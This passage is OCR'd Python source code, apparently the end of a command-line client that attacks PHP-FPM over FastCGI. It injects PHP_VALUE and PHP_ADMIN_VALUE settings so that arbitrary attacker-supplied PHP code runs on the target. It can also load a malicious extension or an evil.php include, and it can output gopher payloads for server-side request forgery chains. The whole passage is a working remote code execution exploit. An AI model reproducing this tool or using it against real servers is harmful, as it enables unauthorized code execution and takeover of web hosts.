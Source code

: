 ```python
def __repr__(self):
return "fastcgi connect host:{} port:{}".format(self.host, self.port)
if __name__ == '__main__':
parser = argparse.ArgumentParser(description='Php-fpm code execution vulnerability client.')
parser.add_argument('host', help='Target host, such as 127.0.0.1')
parser.add_argument('file', help='A php file absolute path, such as /usr/local/lib/php/System.php')
parser.add_argument('-c', '--code', help='What php code your want to execute', default='<?php echo "PWNed";?>')
parser.add_argument('-p', '--port', help='FastCGI port', default=9000, type=int)
parser.add_argument('-e', '--ext', help='ext absolute path', default='')
parser.add_argument('-if', '--include_file', help='evil.php absolute path', default='')
parser.add_argument('-u', '--url_format', help='generate gopher stream in url format', nargs='?',const=1)
parser.add_argument('-b', '--base64_format', help='generate gopher stream in base64 format', nargs='?',const=1)
args = parser.parse_args()
client = FastCGIClient(args.host, args.port, 3, 0)
params = dict()
documentRoot = "/"
uri = args.file
params = {
'GATEWAY_INTERFACE': 'FastCGI/1.0',
'REQUEST_METHOD': 'POST',
'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
'SCRIPT_NAME': uri,
'QUERY_STRING': '',
'REQUEST_URI': uri,
'DOCUMENT_ROOT': documentRoot,
'SERVER_SOFTWARE': 'php/fcgiclient',
'REMOTE_ADDR': '127.0.0.1',
'REMOTE_PORT': '9985',
'SERVER_ADDR': '127.0.0.1',
'SERVER_PORT': '80',
'SERVER_NAME': "localhost",
'SERVER_PROTOCOL': 'HTTP/1.1',
'CONTENT_TYPE': 'application/text',
'CONTENT_LENGTH': "%d" % len(args.code),
'PHP_VALUE': 'auto_prepend_file = php://input',
'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
if args.ext and args.include_file:
#params['PHP_ADMIN_VALUE']='extension = '+args.ext
params['PHP_ADMIN_VALUE']="extension_dir = /var/www/html\nextension = ant.so"
params['PHP_VALUE']='auto_prepend_file = '+args.include_file
if not args.url_format and not args.base64_format :
response = client.request(params, args.code)
print(force_text(response))
else:
response = client.gopher(params, args.code)
if args.url_format:
print(urllib.quote(response))
if args.base64_format:
print(base64.b64encode(response))
```

